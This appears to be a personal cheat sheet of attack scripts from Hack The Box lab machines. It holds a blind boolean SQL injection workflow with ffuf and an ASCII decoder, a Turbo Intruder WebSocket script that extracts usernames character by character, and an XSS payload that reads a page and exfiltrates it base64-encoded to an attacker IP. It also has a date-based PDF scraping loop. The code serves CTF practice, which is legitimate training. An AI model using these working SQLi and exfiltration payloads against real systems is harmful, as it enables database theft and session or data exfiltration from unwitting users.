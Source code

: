 # Scripts

## SQLi

### Converting Blind Boolean ffuf output to ASCII

`ffuf -request request.txt -request-proto http -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73`

<div align="left"><figure><img src="../../.gitbook/assets/image (6) (1).png" alt="" width="506"><figcaption></figcaption></figure></div>

```bash
cat output | grep '*' > newoutput
```

```python
file=open("newoutput","r")
dic = {}
while True:
    keyv = file.readline()
    if not keyv:
        break
    key = keyv.split(':')[1].replace("\n","").strip()
    valv = file.readline()
    val = valv.split(':')[1].replace("\n","").strip()
    dic[key]=val


l = [0] * len(dic)
for i in range(1,len(dic)+1):
    l[i-1] = dic[str(i)]
text = ''.join(chr(int(value)) for value in l)
print(text)
```

### WebSockets Blind Boolean&#x20;

```python
#Body in Request Panel of WebSocket Turbo Intruder
{
"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),$1,1)='$2'"
}

import time
def queue_websockets(upgrade_request, message):
    connection1 = websocket_connection.create(upgrade_request)
    template = message
    with open('/home/jtripz/htb/scripts/smallcharlist.txt') as file: 
        for i in range(1,10):
            for line in file:
                time.sleep (0.17)
                payload = build_payload(template,str(i), line.strip())
                connection1.queue(payload)
            file.seek(0)

def build_payload (template, *args):
    return_payload = template
    for i in range (0, len(args)):
        return_payload = return_payload.replace('$'+str(i+1), args[i])
    return return_payload
    

def handle_outgoing_message(websocket_message):
    results_table.add(websocket_message)

def handle_incoming_message(websocket_message):
    if websocket_message.getLength()==13:
        results_table.add(websocket_message)
```

## JS

### Fetch File via XSS

```javascript
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

## Web

### Web Requests and using date in file name

```python
import datetime
import requests
​
t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)
​
while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        with open(t.strftime('%Y-%m-%d-upload.pdf'), 'wb') as f:
            f.write(resp.content)
    t = t + datetime.timedelta(days=1)
    if t > end:
        break
​
```

## Bash

### Processing all files in a directory

```bash
#!/bin/bash

TARGET_DIR="/home/jtripz/htb/rooms/intelligence/pdfs" # Replace with the actual path

# Check if the directory exists and is a directory
if [ ! -d "$TARGET_DIR" ]; then
  echo "Error: '$TARGET_DIR' is not a valid directory."
  exit 1
fi

# Loop through each item in the directory
for entry in "$TARGET_DIR"/*; do
  # Check if the current item is a regular file
  if [ -f "$entry" ]; then
    echo "Processing file: $entry"
    # Add your desired operations on the file here
  fi
done
```
